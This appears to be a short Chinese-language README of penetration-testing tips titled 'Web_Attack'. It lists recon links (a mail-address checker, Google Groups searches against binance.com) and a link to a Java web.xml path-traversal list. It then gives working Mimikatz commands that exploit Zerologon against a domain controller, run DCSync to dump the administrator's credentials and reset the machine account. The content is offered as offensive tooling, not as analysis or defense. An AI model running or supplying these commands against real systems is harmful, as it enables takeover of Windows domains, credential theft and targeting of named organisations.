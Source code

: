 # Web_Attack

记录一些渗透中的小技巧，帮助各位攻破各种"不可能"


验证Mail是否存在

http://mailtester.com/testmail.php


搜索Google群组,查看是否有群组，可以查看到邮箱 用户 或者 第三方域名

https://groups.google.com/a/binance.com/forum/


发现WEB-INF/web.xml，扩大攻击面

https://gist.githubusercontent.com/harisec/519dc6b45c6b594908c37d9ac19edbc3/raw/af521a3c730d4a77660e91ed41f51725cb0bbde3/exploit_path_traversals_in_Java_webapps.txt


Zerologon  突破 445

lsadump::zerologon /target:WIN-4MRAELMUJKS /account:WIN-4MRAELMUJKS$

lsadump::zerologon /target:WIN-4MRAELMUJKS /account:WIN-4MRAELMUJKS$ /exploit

lsadump::dcsync /domain:red.com /dc:WIN-4MRAELMUJKS /user:administrator /authuser:WIN-4MRAELMUJKS$ /authdomain:red /authpassword:"" /authntlm

lsadump::postzerologon /target:red.com /account:WIN-4MRAELMUJKS$
